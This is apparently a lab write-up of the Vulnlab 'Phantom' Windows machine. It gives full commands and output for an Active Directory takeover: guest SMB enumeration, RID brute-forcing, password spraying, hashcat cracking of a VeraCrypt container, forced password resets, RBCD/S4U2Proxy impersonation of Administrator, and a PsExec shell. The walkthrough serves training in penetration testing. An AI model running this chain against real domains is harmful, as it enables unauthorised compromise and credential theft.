



Phantom is a Windows machine with medium difficulty. We start by using the password found in a PDF file. After a few steps, we find a service account and abuse the ACLs (Access Control Lists) in Active Directory.

Let's start with a classic Nmap scan as usual.

```bash
➜  Phantom nmap -p- --min-rate 1000 10.10.86.166 -oN scan.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-13 16:27 +04
Nmap scan report for 10.10.86.166
Host is up (0.093s latency).
Not shown: 65524 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49712/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 129.96 seconds
```

Meanwhile, we can use tools like `nxc` and `cme` to perform things like null authentication, share enumeration.\
After a few attempts, we see that we can access some files using the Guest account.


```bash
➜ Phantom impacket-smbclient phantom.vl\guest -target-ip 10.10.86.166 -no-pass                                                                        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Public
# ls
drw-rw-rw-          0  Thu Jul 11 19:03:14 2024 .
drw-rw-rw-          0  Sun Jul  7 12:39:30 2024 ..
-rw-rw-rw-      14565  Sat Jul  6 20:09:28 2024 tech_support_email.eml
```

We found a `.eml` file — it's an email file.

```zsh
➜  Phantom cat tech_support_email.eml 
Content-Type: multipart/mixed; boundary="===============6932979162079994354=="
MIME-Version: 1.0
From: alucas@phantom.vl
To: techsupport@phantom.vl
Date: Sat, 06 Jul 2024 12:02:39 -0000
Subject: New Welcome Email Template for New Employees

--===============6932979162079994354==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit


Dear Tech Support Team,

I have finished the new welcome email template for onboarding new employees.

Please find attached the example template. Kindly start using this template for all new employees.

Best regards,
Anthony Lucas
    
--===============6932979162079994354==
Content-Type: application/pdf
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="welcome_template.pdf"

<SNIP>
IAowMDAwMDAwMDE5IDAwMDAwIG4gCjAwMDAwMDA3MDcgMDAwMDAgbiAKMDAwMDAwODYyNyAwMDAw
MCBuIAowMDAwMDA3NTE2IDAwMDAwIG4gCjAwMDAwMDc2MjYgMDAwMDAgbiAKMDAwMDAwNzczNiAw
MDAwMCBuIAowMDAwMDA3ODQ2IDAwMDAwIG4gCjAwMDAwMDc5NTYgMDAwMDAgbiAKMDAwMDAwODA2
NiAwMDAwMCBuIAowMDAwMDA4MTc3IDAwMDAwIG4gCjAwMDAwMDgyOTAgMDAwMDAgbiAKMDAwMDAw
ODQwMyAwMDAwMCBuIAowMDAwMDA4NTE1IDAwMDAwIG4gCjAwMDAwMDg5OTEgMDAwMDAgbiAKMDAw
MDAwMDcyNyAwMDAwMCBuIAowMDAwMDA2MjI2IDAwMDAwIG4gCjAwMDAwMDYyNDggMDAwMDAgbiAK
MDAwMDAwNjQ0NyAwMDAwMCBuIAowMDAwMDA2OTU3IDAwMDAwIG4gCjAwMDAwMDczMTEgMDAwMDAg
biAKMDAwMDAwNzM0NCAwMDAwMCBuIAowMDAwMDA4Nzc3IDAwMDAwIG4gCjAwMDAwMDg4NzYgMDAw
MDAgbiAKMDAwMDAwOTA2NiAwMDAwMCBuIAowMDAwMDA5MjM1IDAwMDAwIG4gCnRyYWlsZXIKPDwv
U2l6ZSAyNy9Sb290IDI1IDAgUgovSW5mbyAyNiAwIFIKL0lEIFsgPEM0QUQ2NUU5NEZCOTk3OTYx
MTU1Q0FGRkQ2QUMyQjUzPgo8QzRBRDY1RTk0RkI5OTc5NjExNTVDQUZGRDZBQzJCNTM+IF0KL0Rv
Y0NoZWNrc3VtIC8wQTM4N0RBQjYxNTBCMkRCMTg0MzJGMDJENzY2MDQxMwo+PgpzdGFydHhyZWYK
OTQxNAolJUVPRgo=

--===============6932979162079994354==--
```

As we can see, it's an email file.\
Inside, there's the sender, recipient, and a file encoded in Base64.\
We can see that it's a PDF file, so let's go ahead and convert it to `.pdf` format.

```bash
➜  Phantom base64 -d mail.txt > mail.pdf
```

<figure><figcaption></figcaption></figure>

After opening the file, we see the default password set for users.\
If we have a password, doing a password spray makes sense. However, we need a user list for that.\
When I tried the password with the two usernames we got from the email, it worked for the _techsupport_ account, but I couldn't make further progress from there.\
We can use the _guest_ user to perform RID brute-forcing and obtain a user list.

<pre class="language-bash"><code class="lang-bash">➜  Phantom netexec smb 10.10.86.166 -u guest -p '' --rid-brute
SMB         10.10.86.166    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.10.86.166    445    DC               [+] phantom.vl\guest: 
SMB         10.10.86.166    445    DC               [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.86.166    445    DC               498: PHANTOM\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.86.166    445    DC               500: PHANTOM\Administrator (SidTypeUser)
SMB         10.10.86.166    445    DC               501: PHANTOM\Guest (SidTypeUser)
<strong>&#x3C;SNIP>
</strong>SMB         10.10.86.166    445    DC               1131: PHANTOM\ebryant (SidTypeUser)
SMB         10.10.86.166    445    DC               1132: PHANTOM\vlynch (SidTypeUser)
SMB         10.10.86.166    445    DC               1133: PHANTOM\ghall (SidTypeUser)
SMB         10.10.86.166    445    DC               1134: PHANTOM\ssimpson (SidTypeUser)
SMB         10.10.86.166    445    DC               1135: PHANTOM\ccooper (SidTypeUser)
SMB         10.10.86.166    445    DC               1136: PHANTOM\vcunningham (SidTypeUser)
SMB         10.10.86.166    445    DC               1137: PHANTOM\SSPR Service (SidTypeGroup)
</code></pre>

If we only want to extract the usernames, we can save the output as it is and then use the following command to extract the users from it.

```bash
➜ Phantom cat u.txt| cut -d '' -f2 | cut -d ' ' -f1 > user.txt
➜ Phantom tail -n 5 user.txt
ssimpson
ccooper
vcunningham
SSPR
```

Now we can perform a password spray.\
You can use `nxc` if you prefer, but I used `kerbrute` because it's faster.

```zsh
➜  Phantom kerbrute passwordspray -d phantom.vl user.txt <REDACTED> --dc 10.10.86.166

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 04/13/25 - Ronnie Flathers @ropnop

2025/04/13 17:14:37 >  Using KDC(s):
2025/04/13 17:14:37 >  	10.10.86.166:88

2025/04/13 17:14:38 >  [+] VALID LOGIN:	 ibryant@phantom.vl:<REDACTED>
2025/04/13 17:14:38 >  Done! Tested 26 logins (1 successes) in 0.731 seconds
```

Nice, we’ve compromised the _Ibryant_ user.

Then, I looked at the shares of the _Ibryant_ user and found a file with a `.hc` extension.\
After some investigation, I realized that this is a VeraCrypt file.\
To put it simply, VeraCrypt is a tool used to encrypt your disk or files.

```zsh
➜  Phantom impacket-smbclient phantom.vl/ibryant@10.10.86.166                                          

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# shares
ADMIN$
C$
Departments Share
IPC$
NETLOGON
Public
SYSVOL
# use Departments Share
# ls
drw-rw-rw-          0  Sat Jul  6 20:25:31 2024 .
drw-rw-rw-          0  Sun Jul  7 12:39:30 2024 ..
drw-rw-rw-          0  Sat Jul  6 20:25:11 2024 Finance
drw-rw-rw-          0  Sat Jul  6 20:21:31 2024 HR
drw-rw-rw-          0  Thu Jul 11 18:59:02 2024 IT
# cd IT
# ls
drw-rw-rw-          0  Thu Jul 11 18:59:02 2024 .
drw-rw-rw-          0  Sat Jul  6 20:25:31 2024 ..
drw-rw-rw-          0  Sat Jul  6 22:04:34 2024 Backup
-rw-rw-rw-   43593728  Sat Jul  6 20:25:36 2024 mRemoteNG-Installer-1.76.20.24615.msi
-rw-rw-rw-   32498992  Sat Jul  6 20:26:59 2024 TeamViewerQS_x64.exe
-rw-rw-rw-   80383920  Sat Jul  6 20:27:15 2024 TeamViewer_Setup_x64.exe
-rw-rw-rw-    9201076  Thu Jul 11 18:59:06 2024 veracrypt-1.26.7-Ubuntu-22.04-amd64.deb
-rw-rw-rw-   86489296  Sat Jul  6 20:25:36 2024 Wireshark-4.2.5-x64.exe
# cd Backup
# ls
drw-rw-rw-          0  Sat Jul  6 22:04:34 2024 .
drw-rw-rw-          0  Thu Jul 11 18:59:02 2024 ..
-rw-rw-rw-   12582912  Sat Jul  6 22:04:34 2024 IT_BACKUP_201123.hc
# get IT_BACKUP_201123.hc
```

This part took me some time.\
If you use the _rockyou_ wordlist, you’ll probably waste a few attempts like I did.\
Here, you need to manually create the wordlist.\
After a few attempts, I figured out that the pattern is _Company name + Year + Special character_\
You can use Hashcat’s rules for this.

```zsh
➜  Phantom hashcat -a 0 -m 13721 IT_BACKUP_201123.hc wordlist 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-penryn-AMD Ryzen 9 6900HX with Radeon Graphics, 1438/2941 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 128

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP
* Uses-64-Bit

ATTENTION! Potfile storage is disabled for this hash mode.
Passwords cracked during this session will NOT be stored to the potfile.
Consider using -o to save cracked passwords.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: wordlist
* Passwords.: 330
* Bytes.....: 4290
* Keyspace..: 330
* Runtime...: 0 secs

IT_BACKUP_201123.hc:<REDACTED>                          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13721 (VeraCrypt SHA512 + XTS 512 bit (legacy))
<SNIP>

Started: Sun Apr 13 17:41:49 2025
Stopped: Sun Apr 13 17:42:05 2025
```

After that, I installed the VeraCrypt program on my Windows, mounted the encrypted file to my computer, and transferred the contents to Kali.

```bash
➜  KALI ls -lah
total 11M
drwxrwxr-x 2 user user 4.0K Apr 13 17:56 .
drwxrwxr-x 3 user user 4.0K Apr 13 17:58 ..
-rw-rw-r-- 1 user user  47K Jul  6  2024 azure_vms_0805.json
-rw-rw-r-- 1 user user  47K Jul  6  2024 azure_vms_1023.json
-rw-rw-r-- 1 user user  47K Jul  6  2024 azure_vms_1104.json
-rw-rw-r-- 1 user user  47K Jul  6  2024 azure_vms_1123.json
-rw-rw-r-- 1 user user 989K Jul  6  2024 splunk_logs1203
-rw-rw-r-- 1 user user 989K Jul  6  2024 splunk_logs_1003
-rw-rw-r-- 1 user user 989K Jul  6  2024 splunk_logs_1102
-rw-rw-r-- 1 user user  19K Jul  6  2024 ticketing_system_backup.zip
-rw-rw-r-- 1 user user 7.9M Jul  6  2024 vyos_backup.tar.gz
```

Inside, there are log files, files related to VMs, and a VyOS backup.

VyOS is a **network operating system** that can function as a **firewall**, router, VPN server, and more. While it's not just a firewall, it includes firewall capabilities to filter and control network traffic. You can configure VyOS to secure your network by setting up rules and policies.(ChatGPT says)\


Let's open it and take a look.


```zsh
➜  config cat config.boot 
firewall {
    global-options {
        state-policy {
            established {
                action "accept"
            }
<SNIP>
                level "info"
            }
            facility local7 {
                level "debug"
            }
        }
    }
}
vpn {
    sstp {
        authentication {
            local-users {
                username lstanley {
                    password "<REDACTED>"
                }
            }
            <SNIP>
```

Inside the config file, there are some hashes and a plaintext password.

When we try the credentials, we don't find anything.

```bash
➜  Phantom netexec smb 10.10.98.25 -u lstanley -p '<REDACTED>' 
SMB         10.10.98.25     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.10.98.25     445    DC               [-] phantom.vl\lstanley:<REDACTED>STATUS_LOGON_FAILURE 

```

Let's try a spray with this password as well.

```zsh
➜  Phantom kerbrute passwordspray -d phantom.vl user.txt <REDACTED>--dc 10.10.86.166

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 04/13/25 - Ronnie Flathers @ropnop

2025/04/13 18:11:08 >  Using KDC(s):
2025/04/13 18:11:08 >  	10.10.86.166:88

2025/04/13 18:11:08 >  [!] Guest@phantom.vl:<REDACTED> [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (14) KDC_ERR_ETYPE_NOSUPP KDC has no support for encryption type
2025/04/13 18:11:08 >  [+] VALID LOGIN:	 svc_sspr@phantom.vl:<REDACTED>
2025/04/13 18:11:08 >  Done! Tested 25 logins (1 successes) in 0.508 seconds
```

We compromised the _svc\_sspr_ user, and this led us to find our first flag.

```zsh
➜  Phantom netexec winrm 10.10.86.166 -u svc_sspr -p '<REDACTED>'                                                          
WINRM       10.10.86.166    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
WINRM       10.10.86.166    5985   DC               [+] phantom.vl\svc_sspr:<REDACTED>(Pwn3d!)
WINRM       10.10.86.166    5985   DC               [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
WINRM       10.10.86.166    5985   DC               [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
```

Now, let's run BloodHound with the _svc\_sspr_ user and examine the map.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

As seen, we have an attack chain consisting of 2-3 stages.\
Let's start by changing the password of the wsilva user

```bash
net rpc password "wsilva" 'vulnlab_phantom123' -U phantom.vl/svc_sspr%<REDACTED> -S phantom.vl
```

It’s worth checking.

```zsh
➜  Phantom netexec smb 10.10.98.25 -u wsilva -p vulnlab_phantom123
SMB         10.10.98.25     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.10.98.25     445    DC               [+] phantom.vl\wsilva:vulnlab_phantom123 
```

In this scenario, the _wsilva_ user is used as part of an **RBCD (Resource-Based Constrained Delegation)** attack, and the steps involve leveraging various Kerberos and service ticket operations to escalate privileges and ultimately gain access to the target system.

The link below is really helpful at this stage:

[Resource](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users)


We are configuring Resource-Based Constrained Delegation (RBCD) by allowing the user `wsilva` to impersonate other users _to_ the domain controller

```bash
➜  Phantom impacket-rbcd -delegate-from 'wsilva' -delegate-to 'DC$' -dc-ip '10.10.98.25' -action 'write' 'phantom.vl'/'wsilva':'vulnlab_phantom123'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] wsilva can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)
➜  Phantom impacket-getTGT -hashes :$(pypykatz crypto nt 'vulnlab_phantom123') 'phantom.vl'/'wsilva'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in wsilva.ccache
➜  Phantom export KRB5CCNAME=wsilva.ccache 
```


```zsh
➜  Phantom impacket-describeTicket wsilva.ccache | grep Ticket
[*] Ticket Session Key            : 91bde6e9a2058e8f3fb5c49af4c4877f
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
➜  Phantom impacket-changepasswd -newhashes :91bde6e9a2058e8f3fb5c49af4c4877f 'phantom.vl'/'wsilva':'vulnlab_phantom123'@'phantom.vl'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of phantom.vl\wsilva
[*] Connecting to DCE/RPC as phantom.vl\wsilva
[*] Password was changed successfully.
[!] User will need to change their password on next logging because we are using hashes.
```

After setting up RBCD and obtaining a TGT for wsilva, we impersonate the Administrator account and request a service ticket (ST) for CIFS on the domain controller using the S4U2Proxy extension. This allows us to access administrative shares on the DC as the Administrator — effectively giving us full control.

```
➜  Phantom impacket-getST -k -no-pass -u2u -impersonate "Administrator" -spn "cifs/DC.phantom.vl" 'phantom.vl'/'wsilva'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
<SNIP>
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
➜  Phantom export KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache 
```

From this point on, it's up to us — it's also possible to extract the hashes. I simply connected using PsExec and captured the flag

```bash
➜  Phantom impacket-psexec administrator@dc.phantom.vl -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.phantom.vl.....
[*] Found writable share ADMIN$
[*] Uploading file gRAoUlsQ.exe
[*] Opening SVCManager on dc.phantom.vl.....
[*] Creating service BLfQ on dc.phantom.vl.....
[*] Starting service BLfQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> type c:\users\administrator\desktop\root.txt
VL{<REDACTED>}
```


